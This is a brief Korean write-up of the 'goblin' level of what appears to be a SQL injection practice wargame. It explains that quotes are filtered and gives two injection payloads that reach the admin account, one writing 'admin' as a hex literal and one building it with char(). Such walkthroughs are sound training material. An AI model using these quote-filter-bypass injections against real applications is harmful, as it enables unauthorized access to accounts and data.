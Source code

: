 # goblin

id가 admin이면 해결되며, 쿼터를 필터링 하고 있다.   
<br/>

* hex값으로 입력
* char 함수 이용
<br/>

![](1.PNG)
```
?no=1234 or id=0x61646d696e
```   
<br/>

![](2.PNG)
```
?no=1234 or id=char(97,100,109,105,110)
```
